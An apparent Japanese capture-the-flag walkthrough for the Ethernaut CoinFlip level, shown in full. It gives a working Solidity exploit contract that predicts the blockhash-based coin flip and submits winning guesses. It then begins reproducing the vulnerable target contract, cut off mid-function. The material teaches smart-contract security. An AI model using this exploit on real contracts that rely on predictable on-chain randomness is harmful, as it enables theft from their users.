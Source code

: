 
- スマートコントラクトはランダムな数値を生成するために `ブロック番号` を使用していますが、`ブロック番号` は事前に予測できます。

- したがって、別のスマートコントラクトでは `ブロック番号` を取得し、 `flip（）` 関数に送信する内容を事前に決定します。

- 問題を解決するためにアクションを10回繰り返す必要があるため、ループを使用することはできません。

1. RemixまたはFoundryで、`Coinflip` をハッキングするためのスマートコントラクトを記述してデプロイします。

- 別のコントラクトとやり取りする必要があるため、それをインポートするか、別のスマートコントラクトのインターフェイスを作成します。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./CoinFlip.sol";

contract Test {
    using SafeMath for uint256;
    CoinFlip public coinFlip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 public currNumber = 0;

    constructor(address conFlipAddress) public {
        coinFlip = CoinFlip(conFlipAddress);
    }

    function IncreaseItBy1() public {
        coinFlip.flip(getBool());
    }

    function getBool() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip1 = blockValue.div(FACTOR);
        bool side = coinFlip1 == 1 ? true : false;
        return side;
    }
}
```


or

1 シングルファイルに2つのスマートコントラクト（ダブルコントラクト）を書くこともできます。

2 下記のコントラクトをSepoliaにデプロイする。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

```